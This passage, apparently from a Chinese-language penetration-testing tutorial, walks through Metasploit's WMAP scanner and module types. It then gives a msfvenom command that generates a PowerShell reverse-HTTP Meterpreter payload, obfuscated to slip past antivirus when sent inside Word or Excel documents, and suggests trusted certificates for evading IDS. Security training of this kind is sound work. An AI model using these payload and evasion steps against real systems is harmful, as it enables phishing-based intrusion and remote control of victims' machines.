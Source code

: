 #### 扫描步骤

1. 通过命令添加要扫描的网站
2. 将添加的网站作为扫描目标
3. 查看哪些模块将会在扫描中使用

具体用法请参考[wmap官方链接](https://www.offensive-security.com/metasploit-unleashed/wmap-web-scanner/)。

> Web漏洞扫描器极大的提高渗透测试人员的效率，但是，由于对某些漏洞比如信息泄露、加密机制缺陷等漏洞无法探测，且还存在误报和漏报的问题（假阳性、假阴性），对探测到的漏洞，仍然需要手工探测来真正确定。

## encoders

对payload进行加密，绕过杀软的功能模块。

## evasion

绕过杀软的功能模块。

## exploits

漏洞利用模块，对已经扫描和收集到的目标的漏洞进行利用（有可能会失败）的模块。

## nops

提高payload稳定性及维持大小，空指令相关。

## payloads

exploits执行成功后，在目标系统真正执行的代码或指令等操作。

## post

后期渗透模块，执行一些后渗透操作，比如内网扫描和攻击、登录其他服务器、数据库等资产。



## 混淆Meterpreter的Payload

如果我们正在针对目标进行一些社工尝试，我们可能会使用Word或Excel文档作为我们的payload（攻击载荷）
的载体。但是，一个潜在的问题是我们可能无法包含 Meterpreter的payload的二进制文件或让目标机器从Web
下载我们的payload，因为这些操作可能会触发目标机器中的杀毒软件的警报。所以，这里给出一个简单的解决方
案，使用PowerShell进行模糊处理：

```
msfvenom -payload windows/x64/meterpreter_reverse_http -format psh -out meterpreter-
64.ps1 LHOST=127.0.0.1
```

此外，使用受信任的机构签发的SSL/TLS证书可以帮助我们绕过某些网络中的IDS（入侵检测系统），具体可以参
考[Meterpreter Paranoid Mode](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Paranoid-Mode)。
